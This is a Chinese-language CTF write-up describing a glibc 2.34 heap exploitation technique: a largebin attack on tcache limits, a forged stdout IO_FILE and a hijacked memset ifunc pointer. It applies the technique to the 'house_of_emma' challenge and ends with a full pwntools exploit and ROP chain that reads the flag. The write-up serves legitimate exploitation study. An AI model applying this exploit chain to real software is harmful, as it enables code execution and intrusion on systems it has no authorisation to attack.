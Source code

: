 # glibc2.34版本下的最新攻击技巧

## 前言

总所周知，我们在做堆题的时候经常是对堆的漏洞进行利用，最终的效果是改malloc hook或者free hook的地址为onegadget或者system的地址来拿到shell，是因为在执行malloc和free的时候，会对这两个地址进行判断，如果不为零，就跳到这个地址去执行，但是，到了glibc2.34的版本之后，就没有了这个判断，不能再利用其来getshell。



## 利用条件

能进行largebin attack



## 适用范围

程序中仅有calloc函数且申请出来的大小不能放进tcache的情况



## 攻击原理

在新版本下，我们主要思想的就是要找一个能代替malloc hook和free hook的东西，我们可以发现在libc中存在很多类似j_xxxxx_ifunc的函数，它会先跳到一个类似got表的地方存放的地址去执行。

![1](./1.jpg)

还有一个就是要解决程序中只有calloc而无法利用tcache进行任意地址分配的问题，于是就想到了IO_str_overflow函数，可以看到里面有malloc、memcpy、free函数，后面还有个我们上面说到的j_memeset_ifunc函数，我们可以通过前面三个任意分配和任意写把memset_ifunc改成任意地址，达到任意代码执行的操作。

![2](./2.jpg)

![3](./3.jpg)



## 具体例题

这里我们就以湖湘杯的house_of_emma为例，给到的是2.34版本的libc。

### 分析

这题漏洞很明显，就是存在uaf。



![4](./4.png)



申请的堆只能大于0x40f，也就是说不能放进tcache bin了



![5](./5.jpg)



### 利用思路

1.利用UAF泄露libc地址和堆地址。

2.利用largebin atack修改mp_.tcache_bins的值为堆地址，之后free掉的chunks都会被放进tcache，而且在申请的时候会从堆里面取地址申请，当我们申请一个大的chunks时，它就会从我们申请的chunks去取地址进行分配，如果在我们申请的chunks改成任意地址，就能造成任意地址分配。

![6](./6.jpg)



3、但是tcache bin里面的chunk是要malloc才能申请出来的，所以我们要改io file结构体去执行 IO_str_overflow函数。这里我们选择的是stdout指针，然后在堆里面布置好iofile结构体

![7](./7.jpg)

![8](./8.jpg)



4、当执行puts函数的时候，就会去执行_GI__IO_str_overflow的malloc函数，他的参数等于（ _IO_buf_end- _IO_buf_base）*2+100



![9](./9.jpg)



5、而我们上面已经将mp_.tcache_bins改成很大的值，所以当申请0x490的chunks的时候，tcache就会从0x55555555b2d0取值去分配，由于我们已经将其地址改成memset_ifunc，就会分配到那里然后调用memcpy进行任意改。

![10](./10.jpg)

6、因为这题开了沙盒，禁用了system，所以我们要通过orw的方法绕过沙盒去读取flag，这里就要找一个合适的gadget，我们一般是找libc上面的setcontext函数，但是前提条件是能控制rdx，所以我们还要找个gadget来控制rdx，这里的rbx和r14是堆的地址比较容易控制，于是就在libc找到以下gadget填入memset_ifunc，执行完gadget之后配合setcontext就能orw顺利拿到flag

```
0x000000000006f476 : mov rdx, rbx ; mov rsi, r13 ; mov rdi, rbp ; call qword ptr [r14 + 0x38]
```



![11](./11.jpg)



### 完整exp

```
from pwn import*
context.log_level=True
libc=ELF('libc.so.6')
#p = process(["./ld.so", "./pwn"],env={"LD_PRELOAD":"./libc.so.6"})
p = process('./pwn')
#p=remote('172.35.19.11',9999)


def add(idx,size):
	p.recvuntil('Pls input the opcode\n')
	payload='\x01'+p8(idx)+p16(size)+'\x05'
	p.send(payload)
def delete(idx):
	p.recvuntil('Pls input the opcode\n')
	payload='\x02'+p8(idx)+'\x05'
	p.send(payload)
def show(idx):
	p.recvuntil('Pls input the opcode\n')
	payload='\x03'+p8(idx)+'\x05'
	p.send(payload)
def edit(idx,data):
	p.recvuntil('Pls input the opcode\n')
	payload='\x04'+p8(idx)+p16(len(data))+str(data)+'\x05'
	p.send(payload)


add(0,0x440)
add(1,0x4a0)
add(2,0x410)
add(3,0x490)
add(4,0x430)
add(5,0x490)
add(6,0x430)
add(9,0x4c0)
add(10,0x490)
add(11,0x490)
add(12,0x490)
add(13,0x490)
add(14,0x490)
add(15,0x490)
add(16,0x490)
delete(1)
show(1)

leak=u64(p.recv(6).ljust(8,'\x00'))
print hex(leak)
libcbase=leak-(0x7ffff7fb10d0-0x00007ffff7dbe000)
arena=leak+(0x00007ffff7fb10b0-0x7ffff7fb0cc0)
addr=libcbase+(0x7ffff7fb0390-0x00007ffff7dbe000) #0x7ffff7fb1660

IO_str_vtable=libcbase+(0x7ffff7fb2620-0x00007ffff7dbe000)
memset_got=libcbase+(0x7ffff7fb0180-0x00007ffff7dbe000)

'''
0x0000000000082513 : mov rdx, rbx ; mov rsi, r12 ; mov rdi, rbp ; call qword ptr [r13 + 0x38]
0x000000000007494a : mov rdx, rbx ; mov rsi, r12 ; mov rdi, rbp ; call qword ptr [r14 + 0x38]
0x000000000006f476 : mov rdx, rbx ; mov rsi, r13 ; mov rdi, rbp ; call qword ptr [r14 + 0x38]
0x000000000002daa2 : pop rdi ; ret
0x0000000000037c0a : pop rsi ; ret
0x00000000001066e1 : pop rdx ; pop r12 ; ret
'''
setcontext=libcbase+0x50BFD
gadget=libcbase+0x000000000006f476

edit(9,p64(gadget)*6+p64(setcontext)*2)

p.recvuntil('Pls input the opcode')
payload='\x01\x07\x00\x05'+'\x02\x03'+'\x04\x01\x20\x00'+p64(arena)*2+p64(0)+p64(addr-0x20)+'\x01\x08\x10\x04\x05'


p.send(payload)


for i in range(7):
	delete(i+10)

#delete(9)

show(11)
leak=u64(p.recvuntil('\x0a',drop=True).ljust(8,'\x00'))<<12
print hex(leak)

heapbase=leak-(0x7ffff8003000-0x7ffff7fff000)
lock=libcbase+(0x7ffff7fb3730-0x00007ffff7dbe000)
addr=libcbase+(0x7ffff7fb1848-0x00007ffff7dbe000)
system=libcbase+libc.sym['system']
puts=libcbase+0x000000000007A050

v4=heapbase+(0x7ffff8003190-0x7ffff7fff000)
rsp=heapbase+(0x7ffff7fff460-0x7ffff7fff000)
flag=heapbase+(0x7ffff7fff760-0x7ffff7fff000)


pop_rdi=libcbase+0x000000000002daa2
pop_rsi=libcbase+0x0000000000037c0a
pop_rdx_r12=libcbase+0x00000000001066e1
fake_IO_FILE = p64(memset_got)
fake_IO_FILE += p64(v4)                #v4
fake_IO_FILE += p64(v4+0x216)
fake_IO_FILE += p64(memset_got)*3
fake_IO_FILE = fake_IO_FILE.ljust(0x58, '\x00')              
fake_IO_FILE += p64(lock)  #lock
fake_IO_FILE += p64(0)  
fake_IO_FILE += p64(0)  
fake_IO_FILE += p64(rsp)  #lock
fake_IO_FILE += p64(pop_rdi)  
fake_IO_FILE = fake_IO_FILE.ljust(0xa8, '\x00')
fake_IO_FILE += p64(IO_str_vtable)        #change vtable



open=libcbase+libc.sym['open']
read=libcbase+libc.sym['read']
write=libcbase+libc.sym['write']


payload='\x02\x05\x03\x05\x03\x05\x03\x05\x03\x05\x03\x05'+'\x04\x01\xd0\x00'+p64(arena)*2+p64(0)+p64(addr-0x20)+fake_IO_FILE+'\x01\x08\x10\x04'
payload=payload.ljust(0x1c0,'\x00')+p64(flag)+p64(open)
payload+=p64(pop_rdi)+p64(3)+p64(pop_rsi)+p64(flag)+p64(pop_rdx_r12)+p64(0x30)+p64(0)+p64(read)
payload+=p64(pop_rdi)+p64(1)+p64(pop_rsi)+p64(flag)+p64(pop_rdx_r12)+p64(0x30)+p64(0)+p64(write)
payload=payload.ljust(0x4c0,'\x00')+'./flag'
#attach(p,'b *'+str(0x0000555555554000+0x1503)+'\nb *'+str(0x00007ffff7fc2000+0x1886)+'\nb *0x7ffff7e449b9')
#pause()

print hex(libcbase)
print hex(heapbase)

p.send(payload)

p.interactive()



```

